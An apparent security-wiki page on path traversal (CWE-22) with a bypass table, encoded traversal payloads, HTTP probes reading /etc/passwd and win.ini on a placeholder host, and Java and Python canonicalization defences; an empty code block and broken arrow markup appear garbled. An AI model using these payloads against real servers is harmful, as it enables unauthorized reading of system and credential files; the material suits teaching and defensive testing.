

# Path Traversal & Server-Side Directory Traversal Exploitation

> **Classification**: OWASP Top 10 (A01:2021 – Broken Access Control), CWE-22 (Improper Limitation of a Pathname to a Restricted Directory).
> **Primary Impact**: Unauthorized retrieval of sensitive operating system files (`/etc/passwd`, `win.ini`), source code leakage, credential harvesting, and arbitrary file write leading to remote command execution.

---

<!-- TOC_START -->
## Table of Contents
- [1. Root Cause Mechanics & Filesystem APIs](#1-root-cause-mechanics--filesystem-apis)
  - [Vulnerable Concatenation Flow](#vulnerable-concatenation-flow)
  - [Platform Directory Separators](#platform-directory-separators)
- [2. Obstacle Bypass Matrix](#2-obstacle-bypass-matrix)
  - [Absolute Path Traversal](#absolute-path-traversal)
  - [Nested Traversal Sequences (Recursive Stripping Bypass)](#nested-traversal-sequences-recursive-stripping-bypass)
  - [URL Encoding & Double Encoding](#url-encoding--double-encoding)
  - [Non-Standard Unicode & Overlong UTF-8 Encodings](#non-standard-unicode--overlong-utf-8-encodings)
  - [Expected Base Folder Matching](#expected-base-folder-matching)
  - [Expected File Extension & Null-Byte Truncation](#expected-file-extension--null-byte-truncation)
- [3. Diagnostic Probes & Verification Payloads](#3-diagnostic-probes--verification-payloads)
- [4. Defense & Canonicalization Architecture](#4-defense--canonicalization-architecture)
- [5. Primary Sources & Provenance](#5-primary-sources--provenance)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. Root Cause Mechanics & Filesystem APIs

Path Traversal (also known as Directory Traversal) occurs when an application accepts user-supplied input to locate a resource on the local filesystem and concatenates that input with a server-side base directory without proper validation:

```html

```

### Vulnerable Concatenation Flow
The server attempts to read from `/var/www/images/218.png`. If an attacker supplies `../../../etc/passwd`:
```
/var/www/images/ + ../../../etc/passwd = /etc/passwd
```
When passed to filesystem APIs (`fopen`, `file_get_contents`, `FileInputStream`), the operating system normalizes the path, escaping the webroot and exposing arbitrary files.

### Platform Directory Separators
- **Unix / Linux**: Forward slash `/` (e.g. `../../../etc/passwd`).
- **Windows**: Both forward slash `/` and backslash `\` are accepted as valid path delimiters (e.g. `..\..\..\windows\win.ini` or `../../../windows/win.ini`).



## 2. Obstacle Bypass Matrix

| Filter / Obstacle Type | Application Behavior | Bypass Payload / Technique |
| :--- | :--- | :--- |
| **Simple Sequence Blocking** | Strips non-recursive `../` sequences | Nested sequences: `....//....//....//etc/passwd` or `....\/....\/` |
| **Relative Path Stripping** | Removes all relative traversal characters | Absolute path injection: `/etc/passwd` or `C:\windows\win.ini` |
| **URL Path Validation** | Frontend web server decodes path before application | Single URL encode: `%2e%2e%2f` (`../`) or `%2e%2e%5c` (`..\`) |
| **Web Application Firewall** | WAF inspects decoded request string | Double URL encode: `%252e%252e%252f` (`../`) |
| **Unicode Normalization** | Input normalized from UTF-8 to ASCII | Overlong UTF-8: `..%c0%af`, `..%c1%9c`, `..%ef%bc%8f` |
| **Base Folder Validation** | Enforces that string begins with `/var/www/images/` | Prepend expected path: `/var/www/images/../../../etc/passwd` |
| **Extension Whitelist** | Verifies string ends with `.png`, `.jpg` | Null-byte injection (PHP < 5.3.4): `../../../etc/passwd%00.png` |

### Absolute Path Traversal
Some filters solely look for directory traversal sequences (`../`) but do not prevent absolute filesystem paths. Submitting `/etc/passwd` or `C:\windows\win.ini` directly reads root files if the backend API supports absolute paths.

### Nested Traversal Sequences (Recursive Stripping Bypass)
When applications use simple non-recursive string replacement (`input.replace("../", "")`):
```text
....//....//....//etc/passwd
```
When `../` is removed, the surrounding characters collapse: `.` + `.` + `/` $
ightarrow$ `../`, restoring the traversal string.

### URL Encoding & Double Encoding
In contexts such as URL routing or `multipart/form-data` filename headers, multiple decode passes occur. If the reverse proxy decodes `%252e%252e%252f` to `%2e%2e%2f` and forwards it, the backend application performs a second decode into `../`.

### Non-Standard Unicode & Overlong UTF-8 Encodings
Certain application servers and frameworks (e.g. IIS, Tomcat) normalize non-standard multibyte encodings into path separators:
- `..%c0%af` $
ightarrow$ `../`
- `..%ef%bc%8f` $
ightarrow$ `../` (Full-width solidus)

### Expected Base Folder Matching
If an application verifies that the input starts with a specific prefix:
```http
GET /loadImage?filename=/var/www/images/../../../etc/passwd HTTP/1.1
```
The application validates that `/var/www/images/` is present at index 0, but the subsequent `../../../` traverses back to the root filesystem.

### Expected File Extension & Null-Byte Truncation
If an application validates that the file ends with an allowed extension (`.png`):
```text
filename=../../../etc/passwd%00.png
```
In languages implemented in C (e.g. legacy PHP, Perl), null bytes (`0x00`) denote string termination, causing the filesystem API to stop reading at `/etc/passwd`.

## 3. Diagnostic Probes & Verification Payloads

```http
# Linux Standard Probe
GET /loadImage?filename=../../../etc/passwd HTTP/1.1
Host: target.com

# Windows Standard Probe
GET /loadImage?filename=..\..\..\windows\win.ini HTTP/1.1
Host: target.com

# Double Encoded Nested Probe
GET /loadImage?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd HTTP/1.1
Host: target.com
```

## 4. Defense & Canonicalization Architecture

1. **Avoid Passing Input to Filesystem APIs**: The most effective mitigation is storing files referenced by database primary keys or UUIDs rather than user-supplied filenames.
2. **Whitelist Validation**: Validate input strictly against a known whitelist of permitted filenames, or verify that the input contains strictly alphanumeric characters without slashes or dots.
3. **Path Canonicalization & Prefix Verification**: Append user input to the intended base directory, resolve the canonical absolute path using platform APIs, and explicitly verify that the canonical path begins with the base directory:

```java
// Java Secure Canonicalization Pattern
File file = new File(BASE_DIRECTORY, userInput);
String canonicalPath = file.getCanonicalPath();

if (!canonicalPath.startsWith(new File(BASE_DIRECTORY).getCanonicalPath() + File.separator)) {
    throw new SecurityException("Directory traversal attempt detected: " + userInput);
}
// Safe to process file
```

```python
# Python Secure Path Resolution
import os
from pathlib import Path

base_dir = Path("/var/www/images").resolve()
target_file = (base_dir / user_input).resolve()

if not target_file.is_relative_to(base_dir):
    raise PermissionError("Access outside base directory is forbidden")
```

## 5. Primary Sources & Provenance
- Provenance source anchor: [[path-traversal]]

Synthesized from canonical vault notes under `Notes/OLD Notes/WEB/vulnerabilities/Path Traversal/`.

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Comparisons: [[cspt-vs-path-traversal]]
- Related Concepts: [[client-side-path-traversal]], [[file-upload-attack-matrix]], [[os-command-injection-exploitation]]
